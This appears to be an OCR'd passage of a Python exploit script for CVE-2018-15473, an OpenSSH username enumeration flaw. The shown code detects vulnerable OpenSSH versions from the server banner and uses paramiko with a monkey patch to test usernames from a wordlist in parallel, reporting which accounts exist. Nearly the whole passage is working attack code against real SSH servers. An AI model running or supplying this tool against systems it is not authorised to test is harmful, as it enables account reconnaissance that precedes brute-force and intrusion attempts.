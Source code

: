         transport = paramiko.transport.Transport(sock)

        try:
            transport.start_client()
        except paramiko.ssh_exception.SSHException:
            return print(Color.string(f'[!] SSH negotiation failed for user {username}.', color='red'))

        try:
            transport.auth_publickey(username, paramiko.RSAKey.generate(1024))
        except paramiko.ssh_exception.AuthenticationException:
            print(f"[+] {Color.string(username, color='yellow')} found!")
        except InvalidUsername:
            if not verbose:
                return
            print(f'[-] {Color.string(username, color="red")} not found')


    def main(**kwargs):
        """ main entry point for the program """
        sock = create_socket(kwargs.get('hostname'), kwargs.get('port'))
        if not sock:
            return

        banner = sock.recv(1024).decode()

        regex = re.search(r'-OpenSSH_(?P<version>\d\.\d)', banner)
        if regex:
            try:
                version = float(regex.group('version'))
            except ValueError:
                print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {regex.group("version")}')
            else:
                ver_clr = 'green' if version <= 7.7 else 'red'
                print(f"[+] {Color.string('OpenSSH', color=ver_clr)} version {Color.string(version, color=ver_clr)} found")
        else:
            print(f'[!] Attempted OpenSSH version detection; version not recognized.\n[!] Found: {Color.string(banner, color="yellow")}')    

        apply_monkey_patch()

        if kwargs.get('username'):
            kwargs['username'] = kwargs.get('username').strip()
            return connect(**kwargs)

        with multiprocessing.Pool(kwargs.get('threads')) as pool, Path(kwargs.get('wordlist')).open() as usernames:
            host = kwargs.get('hostname')
            port = kwargs.get('port')
            verbose = kwargs.get('verbose')
            pool.starmap(connect, [(user.strip(), host, port, verbose) for user in usernames])


    if __name__ == '__main__':
        parser = argparse.ArgumentParser(description="OpenSSH Username Enumeration (CVE-2018-15473)")

